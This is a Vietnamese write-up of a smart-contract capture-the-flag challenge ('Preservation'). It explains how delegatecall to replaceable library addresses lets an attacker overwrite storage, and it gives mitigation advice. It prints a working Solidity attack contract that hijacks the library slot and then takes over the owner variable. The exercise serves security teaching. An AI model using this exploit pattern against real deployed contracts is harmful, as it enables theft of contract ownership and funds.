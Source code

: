 ### Kết luận
- Lỗ hổng: Giống ở phần `Delegation` thì `delegatecall` là nguyên nhân chính gây lỗ hổng. Nếu một thư viện độc hại được thay thế vào `timeZone1Library` hoặc `timeZone2Library`, kẻ tấn công có thể thay đổi trạng thái của hợp đồng gốc, bao gồm cả biến owner.
- Cách phòng tránh: Không sử dụng `delegatecall` để gọi thư viện từ địa chỉ lưu trữ bên ngoài, triển khai thư viện dưới dạng immutable hoặc lưu trữ mã thư viện trong hợp đồng chính.
- Thêm một số modifier, require cần thiết.
- VD: (chỉ owner mới được phép thay đổi thư viện)
```solidity
function updateLibrary(address newLibrary) public onlyOwner {
    require(newLibrary != address(0), "Invalid library address");
    timeZone1Library = newLibrary;
}

```

### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface IPReservation{
    function setFirstTime(uint256) external;
    function setSecondTime(uint256) external;
}
contract PreservationAttack{
    IPReservation public victim;
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    constructor (address challenge){
        victim = IPReservation(challenge);
    }
     function setTime(uint256 addressAsUint) public {
        owner = address(uint160(addressAsUint));
        // Đặt lại owner bằng địa chỉ chuyển vào

    }
    function attack() external{
        victim.setFirstTime(uint256(uint160(address(this))));
        // Thay đổi địa chỉ timeZone1Library bằng địa chỉ của hợp đồng tấn công


        victim.setFirstTime(uint256(uint160(msg.sender)));
        // Thay đổi owner bằng địa chỉ của kẻ tấn công (msg.sender)
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```
